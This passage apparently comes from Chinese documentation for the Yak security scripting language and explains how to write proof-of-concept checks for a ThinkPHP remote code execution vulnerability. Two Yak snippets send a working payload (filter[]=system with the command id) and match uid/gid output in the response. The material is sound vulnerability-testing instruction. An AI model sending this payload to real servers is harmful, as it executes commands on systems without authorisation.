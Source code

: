 ```yak
    println("found thinkphp vuls...")
    break
}
```

当然如果需要针对返回的数据包进行精细化处理，可以参考 [`poc` 辅助库中所有可用参数](/api-manual/api/poc)

### 使用 `http` 构造 PoC

如果一个 PoC 仅仅是特别基础的发送一个请求，根据返回的结果来判断是否存在漏洞，那么这个 PoC 的编写其实非常简单

```yak
// 发送一个请求
rsp, err := http.Post(
    "http://127.0.0.1:8080/index.php?s=captcha",
    http.header("Content-Type", "application/x-www-form-urlencoded"),
    http.body(`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id`),
)
if err != nil {
    die(err)
}

// 调试工具，可以看到原始相应包是啥。
// http.show(rsp)

// 把原始相应包打印出来
rawPacket, err := http.dump(rsp)
if err != nil {
    die(err)
}

// 编写一个正则，来判断期望的结果是否产生
if re.Match(`((uid\=\d*)|(gid\=\d*)|(groups=\d*))`, rawPacket/*type: any*/) {
    println("found thinkphp vul!")
}
```

我们发现，上面的代码其实非常容易让人理解，使用 http 库发送了一个构造特定 Payload 的请求。

然后使用一个规则来检测漏洞。

### 使用 `fuzz` 构造 PoC

作为对比，我们使用 `fuzz` 模块来构建更容易让人理解的 PoC；

这个方法比 `http` 更好的是：**我们可以直接把数据包直接复制在代码中，减少大家的理解和调试成本**

```yak
fReq, err := fuzz.HTTPRequest(`
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`)
if err != nil {
    die(err)
}

reqs, err := fReq.Exec()
if err != nil {
    die(err)
}

```